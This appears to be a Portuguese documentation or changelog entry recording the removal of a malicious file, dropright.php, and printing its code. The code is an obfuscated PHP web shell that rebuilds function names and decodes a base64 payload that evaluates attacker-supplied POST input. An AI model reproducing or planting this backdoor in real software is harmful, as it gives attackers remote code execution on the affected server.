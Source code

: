```yaml
---
id: doc19
title: Arquivos Maliciosos
sidebar_label: COD 2017-09-15:17
---
```


## 19.0.0 - 2017-09-15

### Fixed

- Removido arquivo dropright.php com código malicioso

## Código

```php

<?php 
$or="cIEBldcm";
$lq="9TVFsn";
$avj = str_replace("j","","sjtrj_jrjejpljajcje");
$zs="FsKCRfUE";
$bu="Y21kJ10pOw==";
$qu = $avj("i", "", "ibiaisie6i4i_dieicoide");
$fh = $avj("k","","crkekatkek_kfkukncktkikon");
$hwy = $fh('', $qu($avj("c", "", $or.$zs.$lq.$bu))); $hwy();         
?>

```

